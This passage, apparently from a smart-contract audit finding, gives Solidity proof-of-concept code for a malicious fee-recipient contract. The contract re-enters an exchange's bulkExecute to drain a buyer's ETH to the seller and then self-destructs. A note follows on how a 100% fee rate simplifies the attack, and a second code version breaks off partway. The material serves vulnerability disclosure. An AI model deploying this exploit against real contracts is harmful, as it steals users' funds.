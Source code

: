 Here is a possible implementation of the fee recipient contract:
```
contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;

    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
        if(!lock){
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);

            // Now we received All of buyers funds. 
            // Send stolen ETH to seller minus the amount needed in order to keep execution.
            address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');

            // selfdestruct and send funds needed to Exchange (to not revert)
            selfdestruct(payable(msg.sender));
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
        }
    }
}
```

Important to know:
The exploit becomes much easier if the set fee rate is 10000 (100% of the price). This can be set by the seller. In such case, the fee recipient does not need to send funds back to the exchange contract. In such case, step #7-8 can be removed. Example code for 100% fee scenario:

```
pragma solidity 0.8.17;

import { Exchange } from "../Exchange.sol";
import { Execution } from "../lib/OrderStructs.sol";

contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;
    
    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
        if(!lock){
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
```